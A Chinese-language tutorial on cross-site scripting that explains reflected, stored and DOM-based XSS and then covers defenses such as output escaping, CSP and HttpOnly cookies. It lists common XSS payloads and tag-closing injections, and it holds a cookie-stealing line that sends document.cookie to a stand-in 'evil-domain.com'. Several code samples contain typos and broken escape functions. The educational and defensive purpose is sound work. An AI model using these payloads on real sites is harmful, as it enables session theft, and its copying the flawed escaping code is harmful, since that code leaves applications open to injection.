

XSS 跨站脚本攻击
XSS 攻击全称 跨站脚本攻击（Cross-Site Scripting），是一种代码注入攻击。
- 攻击方法：攻击者利用网页开发时留下的漏洞，通过巧妙的方法在目标网站 HTML 页面中注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。
- 本质：恶意代码未经过滤，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。
攻击种类
根据攻击的来源，XSS 攻击可分为 反射型、存储型 和 DOM-Based 型三种。
| 类型 | 存储区 | 插入点 |
|---|---|---|
| 反射型 | URL | HTML |
| 存储型 | 服务端数据库 | HTML |
| DOM-Based 型 | 服务端数据库 / 客户端存储 / URL | 前端 JavaScript |
名词说明：
- 存储区：恶意代码存放的位置
- 插入点：由谁取得恶意代码，并插入到网页上
反射型
反射型 XSS 攻击又称为非持久性跨站点脚本攻击，这种攻击类型通过诱导用户点击恶意链接来造成一次性攻击。
攻击方式：漏洞产生的原因是攻击者 <strong style="color:red">注入的数据反映在请求响应</strong> 中。用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户浏览器执行，从而达到攻击目的。通过 URL 参数直接注入，然后在响应的数据中包含着危险的代码。
攻击步骤：
- 攻击者把带有恶意脚本代码参数的 URL 地址发送给用户
- 用户点击此链接
- 服务器端获取请求参数并且直接使用，服务器反射回结果页面
说明：
- 反射型 XSS 攻击是一次性的，必须要通过用户点击链接才能发起
- 一些浏览器如 Chrome 其内置了一些 XSS 过滤器，可以防止大部分反射型 XSS 攻击
- 反射型 XSS 其实就是服务器没有对恶意的用户输入进行安全处理就直接反射响应内容，导致恶意代码在浏览器中执行的一种 XSS 漏洞
攻击示例：
<div id="root"></div>
<script type="application/javascript">
// 假设这是请求返回的数据
const res = ['1', '2', '3', '<img src="1" onerror="console.log(windwo.localStorage)" />'];
const root = document.querySelector('#root');
res.forEach((item) => {
const p = document.createElement('p');
p.innerHTML = item;
root.append(p);
});
</script>
当数据返回后，<img> 标签会注入 HTML DOM 文档中，又因为 src 属性为无效的 URL 值，所以触发了 onerror 事件，从而执行了 onerror 定义的函数，这样便获取到了存储在客户端本地的 localStorage 信息。
🤼♂️ 反射型 XSS 跟存储型 XSS 的区别是？
- 反射型 XSS 漏洞常见于 <strong style="color:red">通过 URL 传递参数</strong> 的功能，如网站搜索、跳转等。
- 存储型 XSS 的恶意代码 <strong style="color:red">存在数据库</strong> 里，反射型 XSS 的恶意代码存在 URL 里。
由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。
POST 的内容也可以触发反射型 XSS，只不过其触发条件比较苛刻（需要构造表单提交页面，并引导用户点击），所以非常少见。
存储型
存储型 XSS 攻击又称为持久性跨站点脚本攻击，通常攻击者将代码存储到漏洞服务器中，用户浏览相关页面发起攻击。
攻击步骤：
- 攻击者将恶意脚本代码上传或存储到漏洞服务器
- 服务器把恶意脚本保存到服务器
- 当正常客户访问服务器时，服务器会读取恶意数据并且直接使用
- 服务器会返回含有恶意脚本的页面
实际案例：
- 譬如发帖中发出包含恶意代码的内容，其他内容访问到该内容后，满足特定条件后条件即触发
- 需要后台不过滤信息，并且前端展示时也不过滤信息
注意：这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。
修复：服务端一般不会轻易对大量已存数据再编辑。需要对新写入数据修正存储逻辑。前端做好正确的 编码转义。
| 类型 | 反射型 | 存储型 |
|---|---|---|
| 持久性 | 非持久 | 持久化（存储在服务器） |
| 触发时机 | 需要用户点击 | 不需要用户交互也可以触发 |
| 危害 | 危害较小 | 危害更大 |
DOM Based 型
DOM Based 型 XSS，这种攻击类型不需要服务器端支持，是由于 DOM 结构修改导致的，基于浏览器 DOM 解析的攻击
攻击步骤：
- 用户打开带有恶意的链接
- 浏览器在 DOM 解析的时候直接使用恶意数据
- 用户中招
- 常见的触发场景就是在修改
innerHTML、outerHTML、document.write的时候
实际案例：
- 譬如 Wifi 浏览器劫持、DNS 劫持，并直接返回钓鱼页面
- 本质是需要更改 DOM，再排除自己攻击自己，所以这里单独拿流量劫持举例。严格来说某些反射型的攻击也能造成这个后果-通过 URL 控制 DOM。
DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。
攻击手段
攻击手段：
- 获取页面的数据，如 DOM、Cookie、LocalStorage
- 破坏页面结构
- 流量劫持
- 挂马
- 盗取用户 Cookie
- DDOS（拒绝服务）客户端浏览器
- 钓鱼工具，高级的钓鱼技巧
- 删除用户文章、恶意篡改数据、嫁祸
- 劫持用户 Web 行为，甚至进一步渗透内网
- 爆发 Web2.0 蠕虫
- 蠕虫式 DDoS 攻击
- 蠕虫式挂马攻击、刷广告、刷流量、破坏网上数据
常见有效荷载（Payload）：
<input onfocus=write('xss') autofocus><img src onerror=alert('xss')><svg onload=alert('xss') ><script>alert('xss')</script><a href="javascript:alert('xss')">clickme</a>
XSS 荷载（XSS Payload）是指恶意植入且具有完成各种具体功能的恶意脚本。
标签拼接漏洞
服务端渲染代码：这里的 input 可能是客户端传递到服务端的数据
// Server Code
function serverRender(input) {
return '<div>' + input + '</div'>
}
攻击方法：破坏原来的 HTML 代码结构，让你写的代码生效
输入渲染的 input 变量为 <script>alert(1)</script>
输出渲染的 HTML 结构：<div><script>alert(1)</script></div>
这样你脚本内的 alert(1) 函数返回到前端渲染时就会被自动执行。
提前闭合标签
对于 <textarea> 这种原生会转换输入数据为字符串的标签，可以输入提前闭合标签绕过：
</textarea<script>alert(1)</script><textarea>
或者 input标签：
// Server Code
function serverRender(input) {
return '<input type="name" value=' + input + '">';
}
输入 input 变量："><script>alert(1)</script>
输出渲染的 HTML 结构：<input type="name" value=""><script>alert(1)">
合法 HTML 转义漏洞
服务端渲染代码：将用户输入代码通过合法的 HTML 标签转义输出，返回给前端渲染
// Server Code
function serverRender(input) {
// HTML 的字符转义
function escapeHtml(s) {
return s
.replace(/&/g, '&')
.replace(/'/g, ''')
.replace(/"/g, '"')
.replace(/</g, '<')
.replace(/>/g, '&rt;')
.replace(/\//g, '/');
}
const domainReg = /^https?:\/\/www\.example\.com/;
if (domainRe.test(input)) {
return `<script src="${escapeHtml(input)}"></script>`;
}
return 'Invalid URL';
}
攻击方法：创建多级域名，子孙级域名中带 .com
// 输入
const input = 'https://www.example.com.xss.com/foo.js';
输出渲染的 HTML DOM 结构：那么这个输入的 URL 就会被执行了
<script src="http://www.example.com.xss.com˿oo.js"></script>
HTML 转码在 URL 和 JavaScript 中都是无效的。
合法 JS 转义漏洞
// Server Code
function serverRender(s) {
// JavaScript 的字符转义
function escapeJs(s) {
return s
.replace(/\\/g, '\\\\')
.replace(/'/g, "\\'")
.replace(/"/g, '\\"')
.replace(/`/g, '\\`')
.replace(/</g, '\\74')
.replace(/>/g, '\\76')
.replace(/\//g, '\\/')
.replace(/\n/g, '\\n')
.replace(/\r/g, '\\r')
.replace(/\t/g, '\\t')
.replace(/\f/g, '\\f')
.replace(/\v/g, '\\v')
.replace(/\0/g, '\\0');
}
const s = escapeJs(s);
return `
<script type="application/javascript">
var url = 'javascript:console.log("${s}")'
var a = document.createElement('a')
a.href = url
document.body.appendChild(a)
a.click()
</script>
`;
}
输出的 HTML DOM 结构：
<script type="application/javascript">
var url = 'javascript:console.log("")';
var a = document.createElement('a');
a.href = url;
document.body.appendChild(a);
a.click();
</script>
方法总结
- 在 HTML 中内嵌的文本那种，恶意内容以
script标签形成注入 - 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串、变量、方法名等）
- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签
- 在标签的
href、src等属性中，包含javascript:等可执行代码 - 在
onload、onerror、onclick等事件中，注入不受控制代码 - 在
style属性和标签汇总，包含类似background-image: url("javascript:...")的代码（新版本浏览器已经可以防范） - 在
style属性和标签中，包含类似expression(...)的 CSS 表达式代码（新版本浏览器已经可以防范）
防御策略
防护原则：
- 未雨绸缪
- HTML 正文：HTML 实体字符转义
- HTML 标签：HTML 实体字符转义
- HTML
onxxx事件属性：JS 转义 - URL：URL 转义
- 用户富文本输入：后端白名单标签过滤，使用开源库（例如：sanitize-html），不要用正则过滤
- 配置安全协议头
- Content-Security-Policy
输入过滤
在用户提交时，由前端过滤输入，然后提交到后端。这样做是否可行呢？
答案是不可行。一旦攻击者绕过前端过滤，直接构造请求，就可以提交恶意代码了。
那么，换一个过滤时机：后端在写入数据库前，对输入进行过滤，然后把 安全的 内容，返回给前端。这样是否可行呢？
我们举一个例子，一个正常的用户输入了 5 < 7 这个内容，在写入数据库前，被转义，变成了 5 < 7。
问题是：在提交阶段，我们并不确定内容要输出到哪里。
这里的 并不确定内容要输出到哪里 有两层含义：
- 用户的输入内容可能同时提供给 Web 前端和客户端，而一旦经过了
escapeHTML()，客户端显示的内容就变成了乱码5 < 7。 - 在前端中，不同的位置所需的编码也不同。
当 5 < 7 作为 HTML 拼接页面时，可以正常显示：
<div title="comment">5 < 7</div>
当 5 < 7 通过 AJAX 返回，然后赋值给 JavaScript 的变量时，前端得到的字符串就是转义后的字符。这个内容不能直接用于 Vue 等模板的展示，也不能直接用于内容长度计算。不能用于标题、alert 等。
所以，输入侧过滤能够在某些情况下解决特定的 XSS 问题，但会引入很大的不确定性和乱码问题。在防范 XSS 攻击时应避免此类方法。 当然，对于明确的输入类型，例如数字、URL、电话号码、邮件地址等等内容，进行输入过滤还是必要的。
输入侧过滤能够在某些情况下解决特定的 XSS 问题，但会引入很大的不确定性和乱码问题。在防范 XSS 攻击时应避免此类方法。
纯前端渲染
预防攻击类型：存储型 XSS 和 反射型 XSS。
纯前端渲染的过程：
- 浏览器先加载一个静态 HTML，此 HTML 中不包含任何跟业务相关的数据。
- 然后浏览器执行 HTML 中的 JavaScript。
- JavaScript 通过 AJAX 加载业务数据，调用 DOM API 更新到页面上。
在纯前端渲染中，我们会明确的告诉浏览器：下面要设置的内容是文本 .innerText，还是属性 .setAttribute，还是样式 .style 等等。如此，浏览器不会被轻易地被欺骗，执行预期外的代码。
但纯前端渲染还需注意避免 DOM 型 XSS 漏洞，例如 onload 事件和 href 中的 javascript:xxx 等。
在很多内部、管理系统中，采用纯前端渲染是非常合适的。但对于性能要求高，或有 SEO 需求的页面，我们仍然要面对拼接 HTML 的问题。
转义 HTML
如果拼接 HTML 是必要的，就需要采用合适的转义库，对 HTML 模板各处插入点进行充分的转义。
常用的模板引擎，如 doT.js、ejs、FreeMarker 等，对于 HTML 转义通常只有一个规则，就是把 & < > " ' / 这几个字符转义掉，确实能起到一定的 XSS 防护作用，但并不完善：
| XSS 安全漏洞 | 简单转义是否有防护作用 |
|---|---|
| HTML 标签文字内容 | 有 |
| HTML 属性值 | 有 |
| CSS 内联样式 | 无 |
| 内联 JavaScript | 无 |
| 内联 JSON | 无 |
| 跳转链接 | 无 |
所以要完善 XSS 防护措施，我们要使用更完善更细致的转义策略。
例如 Java 工程里，常用的转义库 org.owasp.encoder。
<!-- HTML 标签内文字内容 -->
<div><%= Encode.forHtml(UNTRUSTED) %></div>
<!-- HTML 标签属性值 -->
<input value="<%= Encode.forHtml(UNTRUSTED) %>" />
<!-- CSS 属性值 -->
<div style="width:<= Encode.forCssString(UNTRUSTED) %>"></div>
<!-- CSS URL -->
<div style="background:<= Encode.forCssUrl(UNTRUSTED) %>"></div>
<!-- JavaScript 内联代码块 -->
<script type="application/javascript">
var msg = '<%= Encode.forJavaScript(UNTRUSTED) %>';
alert(msg);
</script>
<!-- JavaScript 内联代码块内嵌 JSON -->
<script type="application/javascript">
var __INITIAL_STATE__ = JSON.parse('<%= Encoder.forJavaScript(data.to_json) %>');
</script>
<!-- HTML 标签内联监听器 -->
<button onclick="alert('<%= Encode.forJavaScript(UNTRUSTED) %>');">
click me
</button>
<!-- URL 参数 -->
<a href="/search?value=<%= Encode.forUriComponent(UNTRUSTED) %>&order=1#top"></a>
<!-- URL 路径 -->
<a href="/page/<%= Encode.forUriComponent(UNTRUSTED) %>"></a>
<!--
URL.
注意：要根据项目情况进行过滤，禁止掉 "javascript:" 链接、非法 Scheme 等
-->
<a
href='<%=
urlValidator.isValid(UNTRUSTED) ?
Encode.forHtml(UNTRUSTED) :
"/404"
%>'
>
link
</a>
禁止执行不可信数据
DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了。
在使用 .innerHTML、.outerHTML、document.write() 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 .textContent、.setAttribute() 等。
如果用 Vue / React 技术栈，并且不使用 v-html / dangerouslySetInnerHTML 功能，就在前端 render 渲染阶段避免 innerHTML、outerHTML 的 XSS 隐患。
以下方式都能把字符串作为代码运行：
- DOM 中的内联事件监听器：如
location、onclick、onerror、onload、onmouseover等 - HTML DOM 标签属性：
<a>标签的href属性 - JavaScript 的
eval()、setTimeout()、setInterval()等
如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患，请务必避免。
<!-- 内联事件监听器中包含恶意代码 -->
<img onclick="UNTRUSTED" onerror="UNTRUSTED" src="data:image/png," />
<!-- 链接内包含恶意代码 -->
<a href="UNTRUSTED">1</a>
<script type="application/javascript">
// setTimeout()/setInterval() 中调用恶意代码
setTimeout('UNTRUSTED');
setInterval('UNTRUSTED');
// location 调用恶意代码
location.href = 'UNTRUSTED';
// eval() 中调用恶意代码
eval('UNTRUSTED');
</script>
如果项目中有用到这些的话，一定要避免在字符串中拼接不可信数据。
內容安全策略
内容安全策略（Content Security Policy，简称 CSP）是一种 可信白名单 作机制，来限制网站中是否可以包含某来源内容。该制度明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单，它的实现和执行全部由浏览器完成，开发者只需提供配置。
启用 CSP 方式
- 设置 HTTP 头信息的 Content-Security-Policy 字段
content-security-policy: default-scr https:; connect-src https:; font-src https: data:; frame-src https: twitter:; img-src https: data:; media-src https:; object-src https:; script-src 'unsafe-inline' 'unsafe-eval' https:; style-src 'unsafe-inline' https:;
- 通过网页
<meta>标签
<!-- 一个网站管理者想要所有内容均来自站点的同一个源 (不包括其子域名) -->
<meta http-equiv="Content-Security-Policy" content="efault-src 'self'" />
<!-- 一个网站管理者允许内容来自信任的域名及其子域名 -->
<meta http-equiv="Content-Security-Policy" content="default-src 'self' *.trusted.com" />
<!-- 一个网站管理者允许网页应用的用户在他们自己的内容中包含来自任何源的图片, 但是限制音频或视频需从信任的资源提供者（获得），所有脚本必须从特定主机服务器获取可信的代码。 -->
<meta
http-equiv="Content-Security-Policy"
content="default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com"
/>
<!-- 一个线上银行网站的管理者想要确保网站的所有内容都要通过SSL方式获取，以避免攻击者窃听用户发出的请求。 -->
<meta
http-equiv="Content-Security-Policy"
content="default-src https://onlinebanking.jumbobank.com"
/>
<!-- 一个在线邮箱的管理者想要允许在邮件里包含HTML，同样图片允许从任何地方加载，但不允许JavaScript或者其他潜在的危险内容（从任意位置加载）。 -->
<meta http-equiv="Content-Security-Policy" content="default-src 'self' *.mailsite.com; img-src *" />
启用后，不符合 CSP 的外部资源就会被阻止加载。
严格的 CSP 在 XSS 的防范中可以起到下列的作用：
- 禁止加载外域代码，防止复杂的攻击逻辑
- 禁止外域提交，网站被攻击后，用户的数据不会泄漏到外域
- 禁止内联脚本执行（规则较严格，目前发现 Github 使用）
- 禁止未授权的脚本执行（新特性，Google Map 移动版在使用）
- 合理使用上报可以及时发现 XSS，利于尽快修复问题
更多关于 CSP 的理解可以参考 Content Security Policy（CSP）是什么？为什么它能低于 XSS 攻击？
或者查看关于 HTTP CSP 内容安全策略 的整理。
HTTPOnly Cookie
窃取网页 Cookie 的示例：
new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie;
使用 HttpOnly Cookie 将重要的 Cookie 标记为 http-only，这样的话当浏览器向 Web 服务器发起请求的时就会带上 Cookie 字段，但是在 JavaScript 脚本中却不能访问这个 Cookie，这样就避免了 XSS 攻击利用 JavaScript 的 document.cookie 获取 Cookie。
在 Koa 中设置 Cookie httpOnly 属性：
const Koa = require('koa');
const app = new Koa();
app.use(async (ctx) => {
if (ctx.url === '/index') {
ctx.cookie.set('cid', 'hello world', {
// 写 Cookie 所在域名
domain: 'localhost',
// 写 Cookie 所在的路径
path: '/index',
// Cookie 有效时长
maxAge: 10 * 60 * 1000,
// Cookie 失效时间
expires: new Date('2017-02-15'),
// 是否只用于 HTTP 请求中获取
httpOnly: true,
// 是否允许重写
overwrite: false,
});
ctx.body = 'Cookie is ok.';
} else {
ctx.body = 'Hello world!';
}
});
app.listen(300, () => {
console.log('[demo] Cookie is starting at port 3000');
});
在 Chrome 浏览器 Application 面板查看 Cookie 缓存可以直到哪些 Cookie 字段设置了 HttpOnly：
